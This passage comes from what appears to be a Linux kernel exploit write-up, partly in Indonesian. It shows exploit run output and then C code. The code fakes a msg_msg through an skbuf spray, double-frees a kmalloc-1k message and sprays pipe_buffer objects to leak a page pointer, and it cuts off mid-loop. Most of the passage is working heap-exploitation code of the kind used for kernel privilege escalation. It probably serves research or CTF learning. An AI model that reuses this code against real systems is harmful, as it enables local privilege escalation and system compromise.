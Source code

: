 ini hasilnya

```bash
[ Bam0x7 ]
/ $ ./exploit
[*] prepare table and chain
[*] trigger double-free
[+] table spray-0->udata 0x3232323232323232
[+] table spray-2->udata 0x3232323232323232
[+] got duplicated table
[*] replace with msg_msg
[*] kmalloc-1k msg: 0xffff88810307a400
[*] victim qid: 488

```

this step is what we expected, now we can create another secondary fake message and overwrite it with `skbuf->data` and do a double free to leak `pipe_buffer->page`

```c
// Free kmalloc-1k msg
    if (msgrcv(qid[victim_idx], msg, 1024 - 48, MTYPE_SECONDARY, 0) < 0)
    {
        perror("[-] msgrcv");
    }

    // Replace msg with a fake msg using skbuf
    struct msg_msg *fake_msg = calloc(1, sizeof(struct msg_msg) + 1024 - 48);
    fake_msg->m_list.next = msg_ptr - 1024 * 20;
    fake_msg->m_list.prev = msg_ptr - 1024 * 20;
    fake_msg->m_type = MTYPE_FAKE;
    fake_msg->m_ts = 1024 - 48;
    *(uint64_t *)fake_msg->text = 0x1337133713371337;
    puts("[*] send fake msg skbuf");
    for (int i = 0; i < SKBUF_SPRAY; i++)
    {
        if (write(sock[i][0], fake_msg, 1024 - 320) < 0)
        {
            perror("[-] write(socket)");
            return -1;
        }
    }

    // Double free kmalloc-1k msg
    puts("[*] double-free victim msg");
    if (msgrcv(evilqid, msg, 1024 - 48, MTYPE_FAKE, 0) < 0)
    {
        perror("[-] msgrcv");
    }

    // Spray pipe_buffer victims
    int fdflags;
    int pfd[PIPE_SPRAY][2];
    for (int i = 0; i < PIPE_SPRAY; i++)
    {
        pipe(pfd[i]);
        fdflags = fcntl(pfd[i][0], F_GETFL, 0);
        fcntl(pfd[i][0], F_SETFL, fdflags | O_NONBLOCK);
        fdflags = fcntl(pfd[i][1], F_GETFL, 0);
        fcntl(pfd[i][1], F_SETFL, fdflags | O_NONBLOCK);
    }

    // Populate pipe_buffer
    for (int i = 0; i < PIPE_SPRAY; i++)
    {
```